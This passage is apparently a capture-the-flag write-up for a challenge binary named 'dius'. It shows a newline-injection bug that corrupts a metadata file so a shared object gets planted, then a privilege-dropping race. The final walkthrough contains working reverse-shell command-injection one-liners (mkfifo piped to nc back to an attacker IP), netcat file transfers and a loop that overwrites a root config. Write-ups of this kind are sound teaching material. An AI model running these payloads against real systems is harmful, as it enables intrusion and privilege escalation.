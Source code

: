 Observe that the raw value of `argv[2]` is eventually written into the file. Because the `CREATE:` metadata key takes precedence over all other top-level operations, we can use a command like the following:

```sh
dius t $'../c/libb.so\nCREATE:1\nWEB:1\nFILENAME0:libb.so\nCOMPRESS0:n\nFILESIZE0:8112\n'
```

Which corrupts the metadata file contents into something like:

```
LIST:1
FILENAME:../c/libb.so
CREATE:1
WEB:1
FILENAME0:libb.so
COMPRESS0:n
FILESIZE0:8112
```

Since we control the `FILENAME:` key, we are writing our input file to `/challenge/www/dius/../c/libb.so`. Using the `n` compression (which simply appends a bit of data to the end of our input file), we can write a [shared object with a flag-reading constructor](./read-flag.c). Once privileges have been prevented from dropping, this shared object is capable of reading `/root/flag`.

## Final Exploitation Walkthrough

Due to the number of steps involved in the full exploit chain, I ended up writing out a lot of pasteables before my final successful attempt at getting the flag. Here is what I was working with:

```sh
# On local, build files we'll need on target and set up the netcat transfer
# on this end.
./build.sh
tar -czvf files.tar.gz drop-privs libb.so fake.metadata fake.cfg
ncat -lvnp 4321 < files.tar.gz

# On local, set up listeners for reverse shells.
ncat -lvnp 6666
ncat -lvnp 5555

# On diusweb web interface, pop two reverse shells via command injection in
# the filename field.
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.254.20 6666 >/tmp/f;
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.254.20 5555 >/tmp/f;

# On remote, transfer our exploitation files.
cd /tmp
nc 10.0.254.20 4321 > files.tar.gz
tar xvzf files.tar.gz

# On remote, we now kick off the two parts of our privilege-dropping race. In
# our first shell, we start our drop-privs binary in an infinite loop until
# we've successfully overwritten /etc/diusweb.cfg.
cd /tmp
until grep -a 'DROP_PRIVS 0' /etc/diusweb.cfg; do ./drop-privs; done

# On remote, in our second shell, we repeatedly execute the dius binary so that
# our drop-privs tool can attempt to overwrite the metadata file that gets
# generated each time dius is invoked. I needed to add the sleep to the loop
# due to the resource-constrained nature of the Docker container the target was
# running in. Running too many rapid processes bogged the target down to the
# point where the race condition would never work.
cd /tmp
bash -c "for i in {1..100}; do sleep 1 && dius x $'dummy\nCREATE:1\nWEB:1\nFILENAME0:fake.cfg\nCOMPRESS0:n\nFILESIZE0:98\n'; done"

```